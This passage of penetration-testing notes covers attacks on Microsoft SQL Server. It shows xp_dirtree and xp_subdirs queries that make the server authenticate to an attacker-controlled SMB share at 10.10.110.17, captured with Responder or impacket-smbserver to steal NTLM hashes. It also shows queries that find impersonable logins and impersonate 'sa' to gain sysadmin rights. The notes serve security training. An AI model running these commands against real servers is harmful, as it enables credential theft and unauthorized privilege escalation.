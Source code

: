 To make this work, we need first to start Responder or impacket-smbserver (  [[Pentesting/03 - Exploitation/Attacking Services/SMB|SMB]] ) and execute one of the following SQL queries:
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

```
sudo responder -I tun0
```

```
sudo impacket-smbserver share ./ -smb2support
```

## Impersonate Existing Users with MSSQL

### Identifying users 

```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

### Verifying our Current User and Role

```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user. Let us impersonate the user and execute the same commands. To impersonate a user, we can use the Transact-SQL statement EXECUTE AS LOGIN and set it to the user we want to impersonate.

### Impersonate sa user

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

## Communicate with Other Databases with MSSQL
